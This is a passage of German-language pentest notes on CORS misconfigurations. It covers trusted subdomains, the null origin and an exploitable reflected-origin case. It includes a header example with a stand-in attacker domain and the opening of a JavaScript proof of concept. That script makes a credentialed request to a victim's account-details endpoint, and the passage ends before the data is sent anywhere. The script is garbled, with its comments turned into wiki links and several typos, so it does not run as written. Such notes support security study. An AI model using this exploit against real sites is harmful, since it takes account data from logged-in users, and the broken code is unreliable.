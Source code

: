 Das Risiko dieser Fehlkonfiguration wird als hoch eingestuft, wenn die Domäne die Weitergabe von Anmeldeinformationen zulässt, wobei der Header „Access-Control-Allow-Credentials“ auf „true“ gesetzt ist, da der Angreifer eine ähnliche passende Domäne erstellen und vertrauliche Informationen von der Zieldomäne abrufen kann.  
  
Allerdings wäre das Risiko gering, wenn authentifizierte Anfragen nicht zugelassen würden.

### 3. Trusted subdomains with Insecure Protocol.
Setzen Sie den Origin-Header auf eine vorhandene Subdomain und prüfen Sie, ob diese akzeptiert wird. Wenn dies der Fall ist, bedeutet dies, dass die Domäne allen ihren Subdomänen vertraut. Dies ist keine gute Idee, denn wenn eine der Subdomains eine Cross-Site-Scripting-Schwachstelle (XSS) aufweist, kann der Angreifer eine schädliche JS-Nutzlast einschleusen und unberechtigte Aktionen ausführen Aktionen.  
  
Diese Fehlkonfiguration gilt als hohes Risiko, wenn die Domäne Subdomänen mit einem unsicheren Protokoll wie [[HTTP]] akzeptiert und der Anmeldeinformationsheader auf „true“ gesetzt ist. Andernfalls ist es nicht ausnutzbar und wäre nur eine schlechte [[CORS-Implementierung]].

### 4. Null Origin
Setzen Sie den Origin-Header auf den Nullwert – Origin: null, und prüfen Sie, ob die Anwendung den Access-Control-Allow-Origin-Header auf Null setzt. Wenn dies der Fall ist, bedeutet dies, dass Nullursprünge auf der Whitelist stehen.  
  
Die Risikostufe gilt als hoch, wenn die Domäne authentifizierte Anforderungen zulässt und der Header „Access-Control-Allow-Credentials“ auf „true“ gesetzt ist.  
  
Ist dies jedoch nicht der Fall, gilt das Problem als gering und nicht ausnutzbar.

## Exploitable [[CORS]] Cases
>In diesem Abschnitt gehen wir auf die Ausnutzung der [[CORS-Fehlkonfigurationen]] ein, indem wir sie zum leichteren Verständnis in Testfälle kategorisieren.

### 1. Reflected Origin
Die Anwendung gilt als anfällig, wenn sie „Access-Control-Allow-Origin“ auf die vom Angreifer angegebene Domäne setzt und die Weitergabe von Anmeldeinformationen ermöglicht, wobei „Access-Control-Allow-Credentials“ auf „true“ gesetzt ist.

```http
Access-Control-Allow-Origin: http://attacker-domain.com  
Access-Control-Allow-Credentials: true
```

Für die Ausnutzung muss der Angreifer das JS-Skript auf einem externen Server hosten, damit der Benutzer darauf zugreifen kann. Erstellen Sie dann eine HTML-Seite, betten Sie das JS-Skript unten ein und senden Sie es an den Benutzer.

```javascript
<html>  
	<body>  
		<script>  
		  
			[[Initialize]] the XMLHttpRequest object, and the application URL vairable  
			var req = new XMLHttpRequest();  
			var url = ("APPLICATION URL");  
			  
			[[MLHttpRequest]] object loads, exectutes reqListener() function  
			req.onload = retrieveKeys;  
			  
			[[Make]] GET request to the application accounDetails location  
			req.open('GET', url + "/accountDetails",true);  
			  
			[[Allow]] passing credentials with the requests  
			req.withCredentials = true;  
			  
			[[Send]] the request  
			req.send(null);  
```